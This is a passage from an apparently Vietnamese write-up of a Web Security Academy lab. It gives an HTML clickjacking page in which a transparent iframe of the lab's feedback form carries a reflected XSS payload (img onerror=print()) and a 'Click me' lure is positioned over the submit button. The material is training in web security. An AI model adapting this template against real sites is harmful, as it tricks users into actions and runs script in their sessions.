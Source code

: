 ![Alt text](../image/lab4/03.png)

Giờ thì thêm `HTML` để lừa người dùng click và kích hoạt hàm `print()` thôi

```
<style>
    iframe {
        position: relative;
        width: 900px;
        height: 900px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 806px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a33008a032d832d8209d9560020006d.web-security-academy.net/feedback/?name=%3Cimg+src%3D%221%22+onerror%3Dprint%28%29%3E&email=a%40test&subject=a&message=a"></iframe>
```

`View exploit` xem thử kết quả

